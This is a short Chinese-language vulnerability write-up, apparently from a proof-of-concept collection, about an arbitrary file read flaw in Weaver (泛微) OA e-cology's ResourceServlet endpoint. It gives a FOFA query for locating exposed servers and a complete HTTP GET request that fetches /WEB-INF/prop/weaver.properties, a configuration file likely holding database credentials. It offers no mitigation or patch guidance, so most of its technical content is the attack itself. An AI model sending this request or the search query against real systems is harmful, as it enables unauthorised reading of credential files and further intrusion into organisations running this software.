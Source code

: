 ## .泛微OA E-Cology简介

泛微e-cology依托全新的设计理念,全新的管理思想为中大型组织创建全新的高效协同办公环境。

## 漏洞描述

泛微e-cology依托全新的设计理念,全新的管理思想。 为中大型组织创建全新的高效协同办公环境。 智能语音办公,简化软件操作界面。 身份认证、电子签名、电子签章、数据存证让合同全程数字化。泛微OA E-Cology ResourceServlet接口存在任意文件读取漏洞

## 影响版本

泛微e-cology

## fofa查询语句

app="泛微-OA（e-cology）"

## 漏洞复现

漏洞链接：http://xxx.xxx.xxx.xxx/weaver/org.springframework.web.servlet.ResourceServlet?resource=/WEB-INF/prop/weaver.properties

漏洞数据包：

```yaml
GET /weaver/org.springframework.web.servlet.ResourceServlet?resource=/WEB-INF/prop/weaver.properties HTTP/1.1
Host: xx.xxx.xxx.xxx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```

